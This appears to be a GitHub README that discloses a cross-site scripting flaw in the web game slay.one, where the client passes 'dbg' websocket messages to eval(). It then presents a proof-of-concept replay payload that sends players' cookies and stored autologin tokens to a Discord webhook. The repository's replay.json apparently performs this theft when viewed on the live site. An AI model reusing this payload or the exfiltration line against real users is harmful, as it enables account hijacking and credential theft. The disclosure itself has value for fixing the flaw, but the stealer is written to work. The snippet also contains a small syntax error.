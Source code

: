 # dbg-expliot

### Introduction 
Slay.one is a top down pixel shooter on the web. Howeever, like many web apppilcations it can be vulerible to cross-site sripting attacks.

### PoC 
Within the slay.one client-bundle.js, the section of code that handles websocket messages from the server there is a few lines of code that put the user in jepordy. 

```javascript
else if ("dbg" === arr[0]) // dbg packet send from the server 
    try {
        eval(msg.substring(4)) // eval() can be used to execute code 
    } catch (e) {}
```

This can be explioted with slay.one's replay feature where users can download replays of thier games. However, replay's can be editted to execute malicous code on the brower.

As a proof of concept the replay.json file in the repo if viewed on slay.one will steal your cookies and send it to a discord webhook 

```
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}{
    method: 
        'POST',headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({content: 'Stolen Cookies: ' 
    + document.cookie + 'Login' + localStorage.autologin})
});
```
